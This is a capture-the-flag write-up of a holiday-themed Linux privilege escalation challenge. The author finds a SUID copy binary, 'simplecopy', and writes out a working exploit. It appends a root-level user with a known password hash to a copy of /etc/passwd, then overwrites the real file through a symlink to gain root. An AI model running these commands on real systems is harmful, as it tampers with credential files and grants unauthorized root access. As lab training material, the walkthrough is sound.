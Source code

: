 # Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:

![](../images/Linux-PrivEsc-part-1.png)

It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-2.png)

The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-4.png)

Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:

![](../images/Linux-PrivEsc-part-5.png)

Simplecopy can read and write. This could be the solution. I then continued to read:

![](../images/Linux-PrivEsc-part-6.png)

I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:

```txt
cd ..
cd ..
cd root
ls
```

The output of the `ls` command showed me that binary in `/root` was named `runmetoanswer`. To run the binary, I typed:

```txt
./runmetoanswer
```

Which resulted in this prompt:

```txt
Who delivers Christmas presents?

>
```
I first typed `Santa` as my answer, which was incorrect. So I reran the binary and entered `santa` as my answer, and the result was:

![](../images/Linux-PrivEsc-part-10.png)

Done.







